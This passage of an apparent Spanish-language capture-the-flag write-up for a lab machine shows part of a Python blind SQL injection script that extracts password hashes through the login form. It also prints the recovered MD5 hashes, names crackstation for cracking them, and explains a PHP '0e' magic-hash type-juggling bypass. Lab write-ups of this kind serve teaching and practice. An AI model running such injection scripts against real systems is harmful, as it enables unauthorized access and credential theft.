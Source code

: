 ```python
            p1.status("Probando caracter %c en la posiciÃ³n %d" % (character, position))
            post_data = {
                'username': "chris' and substring(password,%d,1)='%c'-- -" % (position, character),
                'password': 'admin'
            }

            r = requests.post(login_url, data=post_data)

            if "Wrong identification" in r.text:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':

    makeRequest()
```

Cambiando el nombre de usuario, podemos buscar la contraseña del usuario chris y admin. una vez lanzado el script, podemos recoger 
la contraseña md5 de cada uno de estos usuarios.

### Crackeamos las contraseñas con crackstation {-}

Abrimos la web de [crackstation](https://crackstation.net/) y colamos los hashes. Encontramos la contraseña del usuario `chris`.

### Loggearse como el usuario admin {-}

Aqui es donde viene toda la parte mas interesante de la maquina. Si nos connectamos como el usuario **chris** vemos que habla de juggling pero poco mas.
Si intentamos connectar a la url `http://10.10.10.73/upload.php` todavia hay una redireccion. Como habla de juggling, pensamos en seguida en una vulnerabilidad
de typo **type juggling** pero tampoco es esto. Esta via se parece mas a un rabbit hole que otra cosa.

Si analyzamos las contraseñas, mejor dicho los hashes encontrados:

- admin:0e462096931906507119562988736854
- chris:d4ee02a22fc872e36d9e3751ba72ddc8

Nos damos cuenta que el hash del usuario chris contiene letras y numeros pero la del usuario admin solo contiene numeros. Porque digo que solo contiene numeros?
Porque si pensamos en forma mathematica, la letra `e` corresponde a un **por 10 elevado a** (en este caso 0 por 10 elevado a 462096931906507119562988736854) al final
solo son numeros.

La vulnerabilidad aqui viene si dos condiciones existen:

1. En `php` la comparativa esta exprimida con un `==` y no con un `===`
1. Si el hash md5 de una contraseña empieza por 0e*xxxxxxxxxxxx...*

Porque succede esta vulnerabilidad? Porque si los hashes de las 2 contraseñas empiezan por 0e*xxx...* y que la comparativa es unicamente de doble igual, como no 
va a comparar de manera stricta, 0 por 10 elevado a cualquier cos (que vale 0) comparado a 0 por 10 elevado a cualquier otra cosa (que tambien vale 0) **SON IGUALES**.
